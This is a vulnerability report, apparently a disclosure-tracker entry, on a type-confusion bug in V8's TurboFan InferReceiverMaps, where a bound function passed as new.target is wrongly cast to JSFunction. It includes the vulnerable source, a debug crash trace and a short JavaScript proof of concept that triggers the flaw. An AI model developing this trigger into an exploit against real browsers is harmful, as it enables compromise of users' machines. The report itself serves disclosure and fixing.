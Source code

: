 https://cs.chromium.org/chromium/src/v8/src/compiler/node-properties.cc?rcl=df84e87191022bf6914f9570069908f10b303245&l=416

Here's a snippet of NodeProperties::InferReceiverMaps.
      case IrOpcode::kJSCreate: {
        if (IsSame(receiver, effect)) {
          HeapObjectMatcher mtarget(GetValueInput(effect, 0));
          HeapObjectMatcher mnewtarget(GetValueInput(effect, 1));
          if (mtarget.HasValue() && mnewtarget.HasValue()) {
            Handle<JSFunction> original_constructor =
                Handle<JSFunction>::cast(mnewtarget.Value());

            if (original_constructor->has_initial_map()) {
              Handle<Map> initial_map(original_constructor->initial_map());
              if (initial_map->constructor_or_backpointer() ==
                  *mtarget.Value()) {
                *maps_return = ZoneHandleSet<Map>(initial_map);
                return result;
              }
            }
          }
          // We reached the allocation of the {receiver}.
          return kNoReceiverMaps;
        }
        break;
      }

"mnewtarget" is expected to be a constructor which also can be of type JSBoundFunction. But "mnewtarget" is always cast to JSFunction leading to type confusion.

The PoC seems not to crash in release mode.

Debug mode log:
#
# Fatal error in ../../src/objects-inl.h, line 566
# Check failed: !v8::internal::FLAG_enable_slow_asserts || (object->IsJSFunction()).
#

==== C stack trace ===============================

    /v8/out.gn/x64.debug/./libv8_libbase.so(v8::base::debug::StackTrace::StackTrace()+0x1e) [0x7f4623e1043e]
    /v8/out.gn/x64.debug/./libv8_libplatform.so(+0x30907) [0x7f4623db3907]
    /v8/out.gn/x64.debug/./libv8_libbase.so(V8_Fatal(char const*, int, char const*, ...)+0x1bd) [0x7f4623df876d]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::JSFunction::cast(v8::internal::Object*)+0x64) [0x7f46226584a4]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::Handle<v8::internal::JSFunction> const v8::internal::Handle<v8::internal::JSFunction>::cast<v8::internal::JSFunction>(v8::internal::Handle<v8::internal::JSFunction>)+0x23) [0x7f4622651173]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::NodeProperties::InferReceiverMaps(v8::internal::compiler::Node*, v8::internal::compiler::Node*, v8::internal::ZoneHandleSet<v8::internal::Map>*)+0x435) [0x7f4622c24a75]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::JSNativeContextSpecialization::InferReceiverMaps(v8::internal::compiler::Node*, v8::internal::compiler::Node*, std::__1::vector<v8::internal::Handle<v8::internal::Map>, std::__1::allocator<v8::internal::Handle<v8::internal::Map> > >*)+0x50) [0x7f4622b8b820]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::JSNativeContextSpecialization::ExtractReceiverMaps(v8::internal::compiler::Node*, v8::internal::compiler::Node*, v8::internal::FeedbackNexus const&, std::__1::vector<v8::internal::Handle<v8::internal::Map>, std::__1::allocator<v8::internal::Handle<v8::internal::Map> > >*)+0x202) [0x7f4622b82632]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::JSNativeContextSpecialization::ReduceNamedAccessFromNexus(v8::internal::compiler::Node*, v8::internal::compiler::Node*, v8::internal::FeedbackNexus const&, v8::internal::Handle<v8::internal::Name>, v8::internal::compiler::AccessMode)+0x2e6) [0x7f4622b822b6]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::JSNativeContextSpecialization::ReduceJSStoreNamed(v8::internal::compiler::Node*)+0x298) [0x7f4622b7c2c8]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::JSNativeContextSpecialization::Reduce(v8::internal::compiler::Node*)+0x11f) [0x7f4622b78f7f]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::GraphReducer::Reduce(v8::internal::compiler::Node*)+0x285) [0x7f4622ad8c55]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::GraphReducer::ReduceTop()+0x44f) [0x7f4622ad874f]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::GraphReducer::ReduceNode(v8::internal::compiler::Node*)+0x1bc) [0x7f4622ad7cfc]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::GraphReducer::ReduceGraph()+0x2d) [0x7f4622ad89bd]
    /v8/out.gn/x64.debug/./libv8.so(v8::internal::compiler::InliningPhase::Run(v8::internal::compiler::PipelineData*, v8::internal::Zone*)+0x58a) [0x7f4622c46e2a]

PoC:
// Flags: --allow-natives-syntax --enable_slow_asserts

class Base {
    constructor() {
        this.x = 1;
    }
}

class Derived extends Base {
    constructor() {
        // JSCreate emitted I guess.
        super();
    }
}

let bound = Object.bind();
Reflect.construct(Derived, [], bound);  // Feed a bound function as new.target to the profiler, so HeapObjectMatcher can find it.

%OptimizeFunctionOnNextCall(Derived);

new Derived();




This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.

 